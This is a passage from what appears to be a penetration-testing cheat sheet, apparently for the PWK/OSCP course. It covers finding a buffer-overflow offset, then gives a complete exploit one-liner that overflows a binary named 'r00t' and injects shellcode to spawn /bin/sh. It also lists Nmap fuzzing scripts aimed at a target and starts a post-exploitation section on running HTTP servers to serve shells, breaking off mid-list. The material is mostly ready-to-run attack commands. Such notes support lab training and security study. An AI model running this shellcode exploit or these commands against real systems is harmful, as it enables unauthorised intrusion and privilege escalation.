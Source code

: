     - Determine Pattern offset

ruby pattern_offset.rb 0x6a413969

    - Pass shell with offset value

env - ./r00t $(python -c 'print "A"*268 + "\x80\xfc\xff\xbf" + "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

# id

    - From Fuzzing to Zero Day

https://blog.techorganic.com/2014/05/14/from-fuzzing-to-0-day/

- Nmap Fuzzers:
    - NMap Fuzzer List

[*https://nmap.org/nsedoc/categories/fuzzer.html*](https://nmap.org/nsedoc/categories/fuzzer.html)

    - NMap HTTP Form Fuzzer

nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip

    - Nmap DNS Fuzzer

nmap --script dns-fuzz --script-args timelimit=2h $ip -d

# [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='67'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2053' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#file-transfers)File Transfers

- Post exploitation refers to the actions performed by an attacker, once some level of control has been gained on his target.
- Simple Local Web Servers
    - Run a basic http server, great for serving up shells etc

python -m SimpleHTTPServer 80

    - Run a basic Python3 http server, great for serving up shells etc

python3 -m http.server

    - Run a ruby webrick basic http server
